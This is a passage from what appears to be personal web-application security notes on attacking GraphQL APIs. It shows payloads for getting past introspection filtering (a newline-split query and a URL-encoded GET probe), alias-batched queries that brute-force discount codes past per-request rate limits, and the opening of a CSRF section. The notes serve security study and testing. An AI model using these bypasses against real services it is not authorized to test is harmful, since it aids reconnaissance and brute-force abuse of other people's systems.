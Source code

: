 ```graphql
#Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

- Try changing `POST` to `GET` request, or change content-type to `x-www-form-urlencoded`.

```graphql
# Introspection probe as GET request

    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

# Bypassing rate limits using aliases

Many endpoints may have a rate limiter in place to prevent brute force attacks. 

If the rate limit is not working based on the number of operations performed on the graphQL endpoint (for e.g. it might be working based on the number of HTTP requests on an endpoint), `aliases` may be used to bypass the rate limit.

Since `aliases` allow us to send multiple queries in a single HTTP request, you can leverage this to bypass the restriction.

```graphql
#Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```

In the above example, you can see that 3 queries are being made in a single HTTP request.

# CSRF over GraphQL

*Cross Site Request Forgery* (`CSRF`) is a kind of web security vulnerability where a malicious user can induce a victim to perform an unintended action by creating a malicious website that forges a cross-domain request to the vulnerable application.

You can learn more about CSRF in my [notes](https://github.com/Nehal-Zaman/Web-Application-Security-Notes/blob/main/Vulnerabilities/CSRF/CSRF.md).
